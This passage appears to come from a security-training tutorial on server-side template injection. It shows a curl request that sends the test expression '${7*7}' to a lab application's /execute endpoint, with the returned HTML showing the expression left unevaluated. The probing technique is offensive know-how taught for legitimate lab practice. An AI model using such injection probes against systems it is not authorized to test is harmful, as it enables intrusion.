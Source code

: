```shell-session
		<font size="5px"><a href="https://html5-templates.com/" rel="nofollow" target="_blank" id="templateLink">&copy; HTML5-Templates.com</a></font>
		<!-- You can use this template freely if you leave a visible link to HTML5-Templates.com -->
	</div>
</body>

```

It doesn't look like the application evaluated the submitted expression. Let us continue with another expression, `${7*7}` this time.

  SSTI Exploitation Example 3

```shell-session
Pangulin@htb[/htb]$ curl -gs 'http://<TARGET IP>:<PORT>/execute?cmd=${7*7}'

<!DOCTYPE html>
<html lang="en">
<style type="text/css">
	#command {
		resize: horizontal;
		background-color : transparent;
		border-color: transparent;
		font-size: 15px;
		width: 200px;

	}
	#command:active {
        width: auto;   
    }
</style>
<head>
	<meta charset="utf-8">
    <meta http-equiv="x-ua-compatible" content="ie=edge">
	<meta name="viewport" content="width=device-width, initial-scale=1" />
	<link rel="stylesheet" href="/static/css/jquery-ui.css">
	<script src="/static/js/jquery-1.12.4.js"></script>
	<script src="/static/js/jquery-ui.js"></script>
	<script src="/static/js/script.js"></script>	
	<link rel="stylesheet" type="text/css" href="/static/css/style.css" />
	<title>Windows</title>
</head>
<body>
	<div id="desktop">
		<div class="window" data-title="Run">
			<form action="/execute" method="get">
				<a>C:\><input type="text" name="cmd" id="command"></a>
				<br/>
				<a>${7*7}</a>
				<br/>
				<input type="submit" value="execute">
			</form>
		</div>
		<div class="window" data-title="Windows">
			<h1>Windows</h1>
			<p>Minimize the windows to the taskbar, make them full screen or close them.</p>
			<p>Drag the title bar to move the windows or resize them from the bottom right corner.</p>
		</div>
		
		<div id="taskbar">		
		</div>
		
```